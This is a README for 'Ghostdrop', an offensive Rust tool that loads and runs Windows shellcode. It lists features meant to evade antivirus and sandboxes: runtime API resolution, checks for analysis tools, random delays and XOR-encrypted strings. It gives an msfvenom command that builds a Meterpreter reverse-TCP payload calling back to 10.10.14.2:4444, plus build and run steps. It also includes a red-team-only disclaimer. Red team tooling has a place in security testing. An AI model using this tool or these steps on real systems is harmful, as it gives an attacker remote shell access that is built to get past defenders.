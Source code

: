 # Ghostdrop

A Windows shellcode execution tool for red team operations with advanced anti-detection capabilities.

## Features

- Loads and executes raw Windows shellcode
- Supports Meterpreter reverse shell payloads
- Advanced anti-detection mechanisms:
  - Dynamic API resolution
  - Sandbox detection
  - Random sleep delays
  - String encryption
- Test mode for safe execution verification
- Cross-compilation support from Linux to Windows

## Anti-Detection Capabilities

### Dynamic API Resolution
- Resolves Windows API functions at runtime
- Evades static analysis and signature-based detection
- Uses `GetModuleHandleA` and `GetProcAddress` for dynamic loading

### Sandbox Detection
- Checks for common sandbox and analysis tool processes
- Detects popular analysis tools like:
  - Wireshark
  - Process Monitor
  - TCPView
  - Fiddler
  - x64dbg
  - And many more
- Graceful exit if sandbox environment is detected

### Random Sleep/Delay
- Configurable random sleep before execution
- Helps evade sandbox timeouts
- Customizable via command line argument

### String Encryption
- XOR encryption for sensitive strings
- Makes static analysis more difficult
- Protects process names and API strings

## Usage

1. Generate shellcode using msfvenom:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f rust
```

2. Copy the generated shellcode into `src/main.rs`, replacing the placeholder array.

3. Build the project:
```bash
cargo build --release
```

4. Run the program:
```bash
./target/release/ghostdrop.exe
```

### Command Line Options

- `--test` or `-t`: Run in test mode (skips shellcode execution)
- `--sleep` or `-s`: Set maximum sleep time in seconds (default: 5)

Examples:
```bash
# Normal execution with default 5-second random sleep
./ghostdrop.exe

# Test mode (skips execution)
./ghostdrop.exe --test

# Custom sleep time (e.g., 10 seconds)
./ghostdrop.exe --sleep 10
```

## Cross-compilation from Linux to Windows

1. Install the Windows target:
```bash
rustup target add x86_64-pc-windows-msvc
```

2. Build for Windows:
```bash
cargo build --release --target x86_64-pc-windows-msvc
```

The compiled binary will be in `target/x86_64-pc-windows-msvc/release/ghostdrop.exe`

## Security Notice

This tool is intended for red team operations and penetration testing only. Use responsibly and in accordance with applicable laws and regulations.

## Dependencies

- winapi: Windows API bindings
- clap: Command line argument parsing
- rand: Random number generation
- aes: Encryption support
- block-modes: Block cipher modes
- hex: Hexadecimal encoding/decoding
- windows-sys: Additional Windows API bindings 